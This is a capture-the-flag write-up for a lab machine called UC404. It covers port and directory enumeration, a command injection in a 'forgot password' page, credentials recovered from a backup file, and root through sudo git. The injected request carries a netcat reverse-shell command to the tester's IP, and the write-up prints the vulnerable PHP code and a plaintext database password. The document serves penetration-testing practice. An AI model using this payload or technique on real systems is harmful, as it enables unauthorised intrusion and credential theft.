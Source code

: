 # UC404

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 192.168.202.109
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-06 21:34 +08
Nmap scan report for 192.168.202.109
Host is up (0.17s latency).
Not shown: 65527 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
2049/tcp  open  nfs
41473/tcp open  unknown
45259/tcp open  unknown
49415/tcp open  unknown
54505/tcp open  unknown
```

NFS is open, which might have stuff we can mount on.

### Rabbit Holes

NFS had nothing:

```
$ showmount -e 192.168.202.109      
Export list for 192.168.202.109:
```

Port 80 shows some dashboard that looks static:

<figure><img src="../../../.gitbook/assets/image (20) (1) (9).png" alt=""><figcaption></figcaption></figure>

A detailed `nmap` scan reveals that there's a `.git` repository present:

```
$ sudo nmap -p 80 -sC -sV --min-rate 3000 192.168.202.109
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-06 21:37 +08
Nmap scan report for 192.168.202.109
Host is up (0.17s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
| http-git: 
|   192.168.202.109:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|     Remotes:
|       https://github.com/ColorlibHQ/AdminLTE.git
|_    Project type: Ruby on Rails web application (guessed from .gitignore)
|_http-title: AdminLTE 3 | Dashboard
```

However, there's nothing interesting within it.&#x20;

### Web Enumeration --> Cmd Injection

I ran a `gobuster` scan on port 80 and found one interesting directory:

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://192.168.202.109 -t 100
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.202.109
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/07/06 21:37:30 Starting gobuster in directory enumeration mode
===============================================================
/pages                (Status: 301) [Size: 318] [--> http://192.168.202.109/pages/]
/demo                 (Status: 301) [Size: 317] [--> http://192.168.202.109/demo/]
/plugins              (Status: 301) [Size: 320] [--> http://192.168.202.109/plugins/]
/docs                 (Status: 301) [Size: 317] [--> http://192.168.202.109/docs/]
/db                   (Status: 301) [Size: 315] [--> http://192.168.202.109/db/]
/dist                 (Status: 301) [Size: 317] [--> http://192.168.202.109/dist/]
/build                (Status: 301) [Size: 318] [--> http://192.168.202.109/build/]
/LICENSE              (Status: 200) [Size: 1082]
/under_construction   (Status: 301) [Size: 331] [--> http://192.168.202.109/under_construction/]
```

The `under_construction` part looked the most promising. It just brought us to a login page:

<figure><img src="../../../.gitbook/assets/image (1) (15).png" alt=""><figcaption></figcaption></figure>

Default credentials don't work with this one. I was a bit stuck here, but eventually decided to check the page source of all pages. There was this interesting bit within the source for the 'Forgot Password' page:

<figure><img src="../../../.gitbook/assets/image (3) (1) (11).png" alt=""><figcaption></figcaption></figure>

Blacklisting some characters means that there is a potential injection point here. I was curious about that '1' and what it was reflecting. I tested this a bit by sending POST requests, but it didn't really work.&#x20;

I thought for a while, and decided to change it to GET requests instead of POST, and it actually worked!

<figure><img src="../../../.gitbook/assets/image (5) (2) (6).png" alt=""><figcaption></figcaption></figure>

We can get a reverse shell by sending this request:

```http
GET /under_construction/forgot.php?email=%0a+nc+-e+/bin/bash+192.168.45.179+21 HTTP/1.1
Host: 192.168.202.109
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Origin: http://192.168.202.109
Connection: close
Referer: http://192.168.202.109/under_construction/forgot.php
Upgrade-Insecure-Requests: 1

```

<figure><img src="../../../.gitbook/assets/image (16) (1) (1).png" alt=""><figcaption></figcaption></figure>

Super CTF-ish initial access. We can read the source code to see how it works:

```php
<?php
//system("php sendmail.php " . $_GET['email'], $output); print_r($output)
$badUrl = $_GET['email'];
$goodUrl = str_replace(';', '?', $badUrl);
system("php sendmail.php " . $goodUrl, $output); print_r($output);
?>
```

## Privilege Escalation

### Brian Creds

I ran a `linpeas.sh` scan to enumerate for me. It picked up on this:

```
[+] Backup folders
drwxr-xr-x 2 root root 4096 Jan 27 16:07 /var/backups                                        
total 16
-rw-r--r-- 1 root     root     10832 Oct 27  2020 apt.extended_states.0
-rw-r--r-- 1 www-data www-data   787 Sep 18  2020 sendmail.php.bak
```

We can read it to find more credentials:

{% code overflow="wrap" %}
```php
www-data@UC404:/tmp$ cat /var/backups/sendmail.php.bak 
<?php                                                                                        
if(isset($_POST['submit']))                                                                  
{ 
$connect=mysql_connect("localhost","brian","BrianIsOnTheAir789") or die("Could not connect to database");
```
{% endcode %}

We can then `su` to `brian`:

<figure><img src="../../../.gitbook/assets/image (14) (2) (2).png" alt=""><figcaption></figcaption></figure>

### Sudo Git

Since we had the password, we can check `sudo` privileges:

```
brian@UC404:/tmp$ sudo -l
Matching Defaults entries for brian on UC404:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User brian may run the following commands on UC404:
    (ALL) NOPASSWD: /usr/bin/git
```

We can follow GTFOBins to get a `root` shell:

<figure><img src="../../../.gitbook/assets/image (8) (11).png" alt=""><figcaption></figcaption></figure>

Rooted!
